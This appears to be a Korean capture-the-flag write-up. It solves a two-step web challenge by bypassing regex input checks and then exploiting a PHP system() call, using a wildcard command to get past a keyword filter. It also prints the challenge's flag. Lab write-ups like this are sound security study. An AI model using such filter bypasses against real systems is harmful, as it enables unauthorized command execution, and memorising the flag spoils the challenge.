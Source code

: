 ## 풀이

![Step 1](image.png)

보아하니 적절한 Nickname과 Password를 알아내야 할 것 같다.
php 코드 파일을 확인해보자.

```php
if (preg_match("/[a-zA-Z]/", $input_pw)) {
    echo "alphabet in the pw :(";
  }
  else{
    $name = preg_replace("/nyang/i", "", $input_name);
    $pw = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);
    
    if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13") {
```

정규표현식을 해석하고 난 후, 다음과 같이 정리할 수 있다.

- Nickname이 요구하는 값은 dnyang0310이고, nyang, nYaNg 등은 공백으로 대체된다.
- Password에서 요구하는 값은 d4y0r50ng+1+13이고, 알파벳을 입력하면 안된다.

Nickname에는 dnynyangang0310을, Password에는 1@111319!+1+13등을 입력하면 Step 2로 넘어갈 수 있다.

![Step 2](image-1.png)

마찬가지로 php 코드 파일을 확인해보자.

```php
// cmd filtering
else if (preg_match("/flag/i", $cmd)) {
  echo "<pre>Error!</pre>";
}
else{
  echo "<pre>--Output--\n";
  system($cmd);
  echo "</pre>";
}
```

리눅스 cmd에 입력하는 것처럼 커맨드를 입력하면 실행되는 구조이다.

단, 커맨드에 flag가 포함되면 안되므로 다음과 같이 입력하면 된다.

```
cat ../dream/fl*
```

다음과 같은 결과가 출력된다.

```
--Output--
DH{ad866c64dabaf30136e22d3de2980d24c4da617b9d706f81d10a1bc97d0ab6f6}
```
